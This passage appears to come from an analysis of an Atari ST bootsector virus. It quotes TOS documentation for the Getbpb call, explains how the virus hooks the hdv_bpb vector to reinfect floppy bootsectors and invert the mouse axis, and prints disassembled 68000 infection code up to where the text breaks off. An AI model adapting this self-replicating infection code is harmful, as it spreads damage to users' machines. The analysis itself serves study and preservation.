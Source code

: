 - OPCODE: 7 (0x07)
- AVAILABILITY: All TOS versions.
- PARAMETERS: dev specifies the mounted device (‘A:’ = 0, ‘B:’ = 1) .
- BINDING
    move.w dev,-(sp)
    move.w #$07,-(sp)
    trap #13
    addq.l #4,sp
    Getmpb() – 3.31
- RETURN VALUE:  Getbpb() returns a pointer to the device’s BPB. The BPB is defined as follows:
    typedef struct
    {
        WORD recsiz; /* bytes per sector */
        WORD clsiz; /* sectors per cluster */
        WORD clsizb; /* bytes per cluster */
        WORD rdlen; /* sector length of root directory */
        WORD fsiz; /* sectors per FAT */
        WORD fatrec; /* starting sector of second FAT */
        WORD datrec; /* starting sector of data */
        WORD numcl; /* clusters per disk */
        WORD bflags; /* bit 0=1 - 16 bit FAT, else 12 bit */
    } BPB
'''

So each time an application or the GEM needs to read the disk information, this function is called... and so is the virus routine.
The code is detailed below, but in brief, here is what happens. The routine reads and buffers the bootsector, copies the 'LOADER' on top of it, patches it to make it executable and writes it back.

Each time it happens, a counter is incremented. And if the counter reaches 5 (starting from -5 the first time), the routine will retrieve the 'mousevec' vector and then will use it to call the 'initmouse' XBIOS function which has an option to inverse the mouse vertical axis.

'''asm
; ----------------------------------------------------------------------------------------------------------
; HDV_HPB Vector Replacement - Core virus code
; ----------------------------------------------------------------------------------------------------------
HDV_HPB_VECTOR:
            MOVE.W    4(sp),D0                          ; hdv_bpb vector
            CMP.W     #2,D0                             ; if dev is not A or B (>=2), do to original vector
            BGE       HDV_HPB_ORIGINAL_VECTOR           ; else
            MOVEM.L   A0-sp/D7/D1-D5,-(sp)              ; duplicate bootloader
            MOVE.W    D0,D7                             ; D7 contains A or B (0 or 1)
            MOVE.L    #(0 << 16 | 1),-(sp)              ; count: 1 | side: 0
            MOVE.L    #(1 << 16 | 0),-(sp)              ; track: 0 | sector: 1
            MOVE.W    D7,-(sp)                          ; dev, D7 contains A or B (0 or 1)
            CLR.L     -(sp)                             ; rsrvd => 0
            LEA       BOOTSECT_BUF.W,A5
            MOVEA.L   (A5),A5                           ;
            MOVEA.L   A5,A6                             ;
            MOVE.L    A5,-(sp)                          ; buf = (BOOTSECT_BUF)
            MOVE.W    #FLOPRD,-(sp)                     ; FLOPRD
            TRAP      #XBIOS
            ADDA.L    #$14,sp                           ; fix stack
            TST.W     D0                                ; 0 = success
            BMI       HDV_HPB_VECTOR_END                ; else quit
PATCH_BOOT:
            MOVE.W    #$601C,(A5)                       ; patch read bootloader buffer with BRA
            ADDA.L    #$1E,A5                           ; advance buffer to bootloader start ($1E)
            LEA       LOADER(PC),A4                     ; A4 = start bootsector program
            LEA       PROG_END(PC),A3                   ; A3 = end
COPY_LOADER_2:
            MOVE.W    (A4)+,(A5)+                       ; copy virus prg